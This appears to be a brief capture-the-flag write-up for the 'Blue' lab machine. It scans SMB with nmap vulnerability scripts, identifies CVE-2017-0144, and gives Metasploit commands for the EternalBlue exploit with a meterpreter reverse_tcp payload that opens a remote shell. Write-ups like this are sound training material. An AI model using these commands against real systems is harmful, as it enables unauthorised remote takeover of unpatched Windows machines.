 # Blue Write-Up

Easy

Tags: 
`Easy`
`External`
`Enumeration`
`SMB`
`Penetration Tester Level 1`
`Remote Code Execution`
`CVE-2017-0144`
`Network`
`CVE Exploitation`
`Windows Vulnerabilities`
`Public Vulnerabilities`

## Intro

1. nmap SMB vulnerabilities scripts
2. Eternal Blue

## Enumeration

### Port scanning

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
...
```

port 445 open => nmap SMB vulnerabilities scripts

```
nmap -p 445 -Pn -script smb-vuln* <target-ip>
```

=> CVE-2017-0144

## Exploit

[Exploit EternalBlue with Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/)

```
use exploit/windows/smb/ms17_010_eternalblue
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

rhosts, lhost, lport > run